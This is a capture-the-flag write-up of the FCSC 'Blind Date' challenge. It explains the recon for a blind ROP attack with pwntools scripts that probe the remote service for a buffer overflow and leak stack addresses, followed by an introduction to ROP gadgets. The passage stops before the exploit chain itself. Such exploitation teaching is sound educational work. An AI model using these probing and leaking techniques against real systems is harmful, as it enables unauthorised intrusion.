

# Blind Date

The France CyberSecurity Challenge (FCSC) had some really interesting challenges this year. One of them was a classic blind ROP exploitation but because it was my first one, I was so hyped to solve it that I thought it would be really nice to explain the exploit step by step.

<p align="center">
    
</p>

## Entry point

So we only have a remote service that we can connect to. Let's see if we can abuse it.


It just asks for our name and exits. From there we can imagine 2 possible vulnerabilities: a format string attack using the output with our input and a potential buffer overflow on the name buffer.

### A format string?

The format string vulnerability is a well known vulnerability concerning an unsafe usage of a `printf` function which supports formatting, such as `printf`, `sprintf`, `fprintf`... We will not go into details there because as we will see down below, there are no such vulnerability here, but I highly suggest to check [LiveOverflow video](https://www.youtube.com/watch?v=0WvrSfcdq1I) on the topic to learn more.

The cool part about this vulnerability is that it is very easy to test, we only have to pass some formatting characters as input such as `%x` and check if we can dump the memory. If so then we can conclude that the binary is vulnerable and that the running code must be something like this:

```c
char username[SIZE];
// [...] <--- get input with `scanf` or `gets` or whatever
printf("Thanks ");
printf(username); // <--- unsafe line
printf("\nBye!\n");
```


Erf, sometime you win, sometime you lose, nothing here, the code is safe and must look like:

```c
char username[SIZE];
// [...] <--- get input with `scanf` or `gets` or whatever
printf("Thanks %s\nBye!\n", username); // <--- safe line
```

### More like a buffer overflow...

I expect everyone to know this vulnerability, but a quick remainder is never a bad idea. A buffer overflow occurs when the program stocks a user input without checking if the received data fits in the buffer it went in. If there are no protection such as [canaries](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries) then the attacker can take control of the execution flow and execute arbitrary code. Once again I highly recommend [LiveOverflow video](https://www.youtube.com/watch?v=T03idxny9jE) to get the details.

<p align="center">
    
</p>

Let's begin the recon by incrementing the input size until the binary crashes.

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'

i = 0
while True:
    # connect to the server and wait for prompt
    r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)
    r.recv(timeout=0.1)

    # send the growing buffer
    i += 1
    pld = b'A' * i
    r.send(pld)

    # check output
    output = r.recv(timeout=0.1)
    if output:
        print(output)
    else:
        print(f'no output -> overflow on {i}')
        break
```


Great! Looks like we are on the right way, we even dumped some addresses because the buffer must be uninitialized and `printf` reads until finding a null byte. Here are the addresses we can dump:

```python
#!/usr/bin/env python3

from pwn import *
from Crypto.Util.number import bytes_to_long

context.log_level = 'error'

offsets = [8, 24, 32, 40] # interesting offsets which dump addresses

for i in offsets:
    # connect to the server and wait for prompt
    r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)
    r.recv(timeout=0.1)

    # send our payload to dump the stack
    pld = b'A' * i
    r.send(pld)

    # format addresses so we can read them
    leak1 = r.recv(timeout=0.1).split() # split at space
    leak2 = leak1[-1][leak1[-1].rfind(b'A') + 1:-4][::-1] # we only keep the leaked bytes in little endian
    leak3 = bytes_to_long(leak2) # we convert them into an integer

    addr = leak3
    print(f'leaked address at offset {i} = {hex(addr)}')
```


Those are definitly **x86-64** addresses. Consequently, because the stack buffer overflow happens after 40 bytes, we can deduce that the buffer is 32 bytes big. Indeed we fill the buffer with 32 `A`, then we overwrite `rbp` which is 8 bytes long in **x86-64** and then we can control the execution flow overwriting the `rip` register. We can also see that constant `0x4006cc` address at offset 40 which must be the return address in `rip` that we will overwrite.

Nice, we have the entry point! Now what? We can control where to go, but the question is: where do we want to go?

## Blind Return Oriented Programming

Also known as BROP, *Blind Return Oriented Programming* is an exploitation technique we use to do *Return Oriented Programming* (ROP) only using the output of the attacked service, acting like an oracle in cryptography attacks. So, what exactly is [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming)?

### Return Oriented what?

This exploit technique uses *gadgets* to execute precise instructions from the binary and to jump somewhere else to execute some other instructions and so on. A gadget is a sequence of instructions that we can use in order to control registers for example, then returning on an address we control throught the stack.

For instance, this gadget allows the attacker to control `rdi`, which is the first argument in the [x64 calling convention](https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-160).

```asm
pop rdi     ; this pops the following address on the stack into `rdi`
ret         ; we regain execution flow control with the next stack address
```

A more visual example could be:

<p align="center">
    
</p>

Thus if we are able to chain gadgets, creating a *ROP chain*, we have a very powerful exploit defeating both ASLR (*Address Space Layout Randomization*) which prevents the attacker to know where to jump in the *libc*, and NX (*No eXecutable*) which prevents shellcode execution on the stack.

Alright alright, this whole ROP stuff is great. But how do we get our gadgets without having access to the binaryy? In a classic ROP challenge we can just disassemble the file to find the interesting ones and the address to return on. How is this possible remotely? This is where things get interesting...
